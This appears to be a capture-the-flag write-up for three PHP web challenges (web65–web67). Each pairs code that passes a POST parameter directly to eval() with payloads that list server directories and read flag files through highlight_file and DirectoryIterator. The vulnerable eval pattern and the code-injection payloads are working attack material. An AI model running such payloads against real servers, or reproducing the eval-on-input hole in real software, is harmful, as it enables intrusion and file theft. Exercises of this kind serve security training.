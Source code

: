 ------

#### web65

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname(__FILE__)));

c=highlight_file("flag.php");
```

------

#### web66

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=print_r(scandir(dirname('/')));

c=highlight_file("/flag.txt");
```

------

#### web67

```php
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
}
```

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}

c=highlight_file("/flag.txt");
```

------
